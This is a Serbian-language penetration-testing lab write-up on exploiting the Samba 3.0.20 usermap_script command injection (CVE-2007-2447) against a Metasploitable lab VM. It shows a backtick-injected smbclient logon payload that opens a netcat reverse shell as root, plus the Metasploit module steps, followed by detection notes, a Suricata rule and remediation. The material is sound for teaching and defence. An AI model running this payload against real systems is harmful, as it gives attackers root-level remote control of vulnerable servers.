



# Samba 3.0.20 — usermap_script RCE (CVE-2007-2447)

Za razliku od vsftpd backdoor-a, ovde nije u pitanju trovanje izvornog koda
nego obična greška u logici servisa. Samba ima opciju `username map script`
koja, kad je uključena, prosleđuje username kroz shell skriptu radi mapiranja
korisnika — problem je što to radi bez ikakve sanitizacije, pa se username
polje može zloupotrebiti za ubacivanje shell komandi. Pošto SMB daemon radi
kao root, sve što se ubaci izvršava se sa root privilegijama.

## Cilj
- IP: 192.168.56.102
- Port: 139/445 (SMB/Samba)
- Servis: Samba 3.0.20-Debian

## CVE
CVE-2007-2447

## Tip napada
Command injection (nesanitizovan input prosleđen shell-u)

## MITRE ATT&CK
- T1190 – Exploit Public-Facing Application
- T1059 – Command and Scripting Interpreter
- T1021.002 – Remote Services: SMB/Windows Admin Shares

## Mehanizam

Kad je `username map script` aktivan, Samba prosleđuje username direktno
shell-u bez ikakve provere. Ubacivanjem shell komande u username polje
(preko backtick karaktera) napadač dobija izvršavanje koda kao root.

---

## Metod 1: Ručna eksploatacija

### Korak 1: Enumeracija SMB share-ova

```bash
smbclient -L 192.168.56.102 -N
```

`-L` prikazuje listu dostupnih share-ova, `-N` znači da se pokušava
anonymous pristup, bez lozinke.

### Rezultat enumeracije



Sharename Type Comment

print$ Disk Printer Drivers
tmp Disk oh noes!
opt Disk
IPC$ IPC IPC Service (metasploitable server (Samba 3.0.20-Debian))
ADMIN$ IPC IPC Service (metasploitable server (Samba 3.0.20-Debian))


### Korak 2: Pokreni listener

```bash
nc -lvnp 4444
```

### Korak 3: Pošalji payload

```bash
smbclient //192.168.56.102/tmp -N --option='client min protocol=NT1' -c 'logon "/=`nohup nc -e /bin/sh 192.168.56.101 4444`"'
```

`--option='client min protocol=NT1'` je tu jer noviji Kali podrazumevano
koristi SMB2/3, koji nije kompatibilan sa ovako starom Sambom — moralo je
da se forsira stariji protokol. Payload sedi unutar backtick karaktera u
`logon` komandi, i to je ono što se izvršava kao shell komanda.

### Rezultat



whoami → root
id → uid=0(root) gid=0(root)
hostname → metasploitable
cat /etc/passwd → potvrda pristupa fajl sistemu kao root


---

## Metod 2: Metasploit

### Komande

```bash
msfconsole
search samba usermap
use exploit/multi/samba/usermap_script
set RHOSTS 192.168.56.102
set LHOST 192.168.56.101
run
```

### Rezultat



[*] Command shell session 1 opened
whoami → root
id → uid=0(root) gid=0(root)
hostname → metasploitable


Razlika u odnosu na ručnu verziju je uglavnom u pogodnosti — Metasploit
sam bira payload i otvara listener, dok kod ručnog pristupa se tačno vidi
šta se šalje i kako se izvršava.

---

## Detekcija (blue team ugao)

- Username polje sa backtick karakterima ili shell sintaksom — nijedan
  legitiman username ne izgleda tako
- Odlazna konekcija sa SMB servera ka eksternom IP-u i portu (reverse shell)
- Proces poput `nc` ili `bash` koji se spawn-uje iz Samba daemona — jasna
  anomalija u process tree-u, lako uočljiva u SIEM-u
- Neočekivana odlazna konekcija na port 4444

## IDS potpis (Suricata primer)

alert tcp any 139 -> any any (msg:"Samba reverse shell outbound connection"; flow:established,to_client; sid:9000002;)


## Remedijacija

- Upgrade Samba na verziju bez ove ranjivosti (3.0.25+)
- Isključiti `username map script` opciju ako nije neophodna
- Firewall pravilo koje SMB serveru zabranjuje odlazne konekcije na
  proizvoljne portove
- Segmentacija mreže — SMB treba da bude dostupan samo interno, nikad
  izložen ka internetu

## Screenshots
- `02_samba_enum.png`
- `02_samba_root.png`
- `02_samba_metasploit_root.png`